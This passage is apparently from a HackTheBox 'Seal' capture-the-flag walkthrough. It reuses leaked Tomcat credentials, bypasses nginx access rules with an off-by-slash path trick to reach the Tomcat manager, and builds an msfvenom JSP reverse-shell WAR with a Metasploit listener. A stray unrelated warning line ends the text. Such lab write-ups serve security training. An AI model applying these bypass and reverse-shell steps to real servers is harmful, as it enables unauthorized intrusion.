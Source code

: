 ```<user username="tomcat" password="42MrHBf*z8{Z%" roles="manager-gui,admin-gui"/>```.

Those creds work with user ```luis```  to GitBucket on port 8080:

![luis.JPG](images/luis.JPG)

On the page [http://10.10.10.250:8080/root/seal_market/blob/master/nginx/sites-enabled/default](http://10.10.10.250:8080/root/seal_market/blob/master/nginx/sites-enabled/default) we can see the following ```nginx```	 configuration:

![nginx.JPG](images/nginx.JPG)

Let's look at ```location /manager/html```, By reading the blog [https://blog.detectify.com/2020/11/10/common-nginx-misconfigurations/](https://blog.detectify.com/2020/11/10/common-nginx-misconfigurations/) about nginx-misconfigurations we can see we can use **Nginx off-by-slash fail** misconfiguration on that URL to access to tomcat manager page which is located on ```/manager/html```.

If we are trying to access it directly by [https://seal.htb/manager/html](https://seal.htb/manager/html) we will get HTTP response code 403.

If we are using the misconfiguration and bypass techniques from [https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf) we can use the following logic:

![bypass.JPG](images/bypass.JPG)

So according the logic above we can access to [https://seal.htb/manager/;/html](https://seal.htb/manager/;/html) or to [https://seal.htb/manager/.;/html](https://seal.htb/manager/.;/html) to get tomcat manager page:

![tomcat.JPG](images/tomcat.JPG)

If we have the tomcat manager page we can deploy a ```war``` file with a reverse shell.

First, Let's create the ```war``` using ```msfvenom``` as follow:
```console
┌─[evyatar@parrot]─[/hackthebox/Seal]
└──╼ $ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=9999 -f war -o rshell.war
Payload size: 1098 bytes
Final size of war file: 1098 bytes
Saved as: rshell.war
```

Create listener on ```metasploit```:
```console
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/jsp_shell_reverse_tcp
payload => java/jsp_shell_reverse_tcp
msf6 exploit(multi/handler) > set LPORT 9999
LPORT => 9999
msf6 exploit(multi/handler) > set LHOST 10.10.14.14
LHOST => 10.10.14.14
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.14:9999 

```


[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'